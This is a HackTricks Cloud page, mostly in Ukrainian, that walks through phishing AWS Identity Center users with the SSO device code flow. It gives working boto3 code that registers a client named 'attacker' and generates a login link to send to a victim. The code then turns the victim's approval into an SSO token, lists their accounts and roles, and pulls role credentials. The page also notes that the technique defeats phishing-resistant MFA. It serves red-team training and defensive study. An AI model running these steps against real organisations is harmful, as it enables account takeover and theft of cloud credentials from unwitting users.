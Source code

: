 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Спочатку запропоновано в [**цьому блозі**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), можливо надіслати **посилання** користувачу, який використовує AWS SSO, що якщо **користувач прийме**, зловмисник зможе отримати **токен для видавання себе за користувача** та отримати доступ до всіх ролей, до яких користувач має доступ у **Identity Center**.

Для виконання цієї атаки необхідні такі умови:

* Жертва повинна використовувати **Identity Center**
* Зловмисник повинен знати **субдомен**, який використовує жертва `<victimsub>.awsapps.com/start`

Тільки з цією інформацією **зловмисник зможе надіслати посилання користувачу**, яке, якщо **прийняте**, надасть **зловмиснику доступ до облікового запису AWS** користувача.

### Attack

1. **Finding the subdomain**

Перший крок зловмисника - дізнатися, який субдомен використовує компанія жертви в їх Identity Center. Це можна зробити за допомогою **OSINT** або **вгадування + BF**, оскільки більшість компаній використовуватимуть свою назву або варіацію своєї назви тут.

З цією інформацією можливо отримати регіон, в якому було налаштовано Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Згенеруйте посилання для жертви та надішліть його**

Запустіть наступний код, щоб згенерувати посилання для входу в AWS SSO, щоб жертва могла аутентифікуватися.\
Для демонстрації запустіть цей код у консолі Python і не виходьте з неї, оскільки пізніше вам знадобляться деякі об'єкти для отримання токена:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Надішліть згенероване посилання жертві, використовуючи свої чудові навички соціальної інженерії!

3. **Чекайте, поки жертва його прийме**

Якщо жертва **вже увійшла в AWS**, їй просто потрібно буде прийняти надання дозволів, якщо ні, їй потрібно буде **увійти в систему, а потім прийняти надання дозволів**.\
Ось як виглядає запит сьогодні:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Отримати токен доступу SSO**

Якщо жертва прийняла запит, запустіть цей код, щоб **згенерувати токен SSO, видаючи себе за користувача**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Токен доступу SSO є **дійсним протягом 8 годин**.

5. **Видавати себе за користувача**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Фішинг непіддатливого MFA

Цікаво знати, що попередня атака **працює навіть якщо використовується "непіддатливе MFA" (webAuth)**. Це тому, що попередній **робочий процес ніколи не залишає використаний домен OAuth**. На відміну від інших атак фішингу, де користувачеві потрібно підмінити домен входу, у випадку, коли робочий процес коду пристрою підготовлений так, що **код відомий пристрою**, і користувач може увійти навіть на іншій машині. Якщо підтвердити запит, пристрій, просто **знаючи початковий код**, зможе **отримати облікові дані** для користувача.

Для отримання додаткової інформації [**перегляньте цей пост**](https://mjg59.dreamwidth.org/62175.html).

### Автоматичні інструменти

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Посилання

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
